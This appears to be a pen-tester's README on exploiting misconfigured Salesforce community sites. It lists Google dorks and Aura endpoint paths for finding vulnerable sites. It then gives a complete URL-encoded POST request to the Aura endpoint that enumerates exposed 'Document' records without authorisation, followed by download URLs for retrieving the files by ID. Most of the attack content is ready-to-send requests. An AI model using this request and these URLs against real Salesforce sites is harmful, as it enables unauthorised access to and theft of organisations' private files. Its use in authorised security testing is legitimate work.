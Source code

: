 # Salesforce-Misconfigured-Objects

Permissions are set for objects, fields and records separately. Out of the three, we as pen-testers really care about the record permissions because they are the real data.

#### Google Dork
```
inurl:/s/topic 
inurl:/s/article
inurl:/s/contactsupport
```

#### Aura Paths
The applicaiton needs to use Salesforce programming technologies like Aura components for it to be vulnerable to "Improper Authorization". If one of the HTTP POST requests are visiable, then  there is a possibility for an Improper Authorisation vulnerability.
```
/s/sfsites/aura  
/aura  
/sfsites/aura
```

Aura can be identified using the Google Dorks above or with this Nuclei template which checks for the Aura HTTP Paths above: https://github.com/projectdiscovery/nuclei-templates/blob/master/misconfiguration/salesforce-aura.yaml

---

## 1) Exposed `Document` Object
![image](https://user-images.githubusercontent.com/25315255/206927978-016973aa-72db-44af-92bb-327f0c913547.png)

#### Request
This is the request being made when the exposed `Document` object is detected. Open Burp and make the same request but change the value {{hostname}}. 
```
POST /s/sfsites/aura HTTP/2
Host: {{hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Content-Type: application/x-www-form-urlencoded;charset=UTF-8

message=%7b%22actions%22%3a%5b%7b%22id%22%3a%22123%3ba%22%2c%22descriptor%22%3a%22serviceComponent%3a%2f%2fui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController%2fACTION%24getItems%22%2c%22callingDescriptor%22%3a%22UNKNOWN%22%2c%22params%22%3a%7b%22entityNameOrId%22%3a%22Document%22%2c%22layoutType%22%3a%22FULL%22%2c%22pageSize%22%3a100%2c%22currentPage%22%3a0%2c%22useTimeout%22%3afalse%2c%22getCount%22%3afalse%2c%22enableRowActions%22%3afalse%7d%7d%5d%7d&aura.context=%7B%22mode%22%3A%22PROD%22%2C%22fwuid%22%3A%22tr2UlkrAHzi37ijzEeD2UA%22%2C%22app%22%3A%22siteforce%3AcommunityApp%22%2C%22loaded%22%3A%7B%22APPLICATION%40markup%3A%2F%2Fsiteforce%3AcommunityApp%22%3A%22K0V8802f_xC9u_ipYQN2Rg%22%7D%2C%22dn%22%3A%5B%5D%2C%22globals%22%3A%7B%7D%2C%22uad%22%3Afalse%7D&aura.token=null
```

#### Response
The response will contain a list of `records`. These records will have `Id`'s that can be put into any of the following URLs to potentially expose sensitive information:
```
/servlet/servlet.FileDownload?file=ID
/sfc/servlet.shepherd/document/download/ID
/sfc/servlet.shepherd/version/download/ID
```
![image](https://user-images.githubusercontent.com/25315255/206928377-9e8336eb-d85b-4529-af0f-3e61f7dc327c.png)

*Example*
```
https://example.com/servlet/servlet.FileDownload?file=0152E000002svDVQAY
```
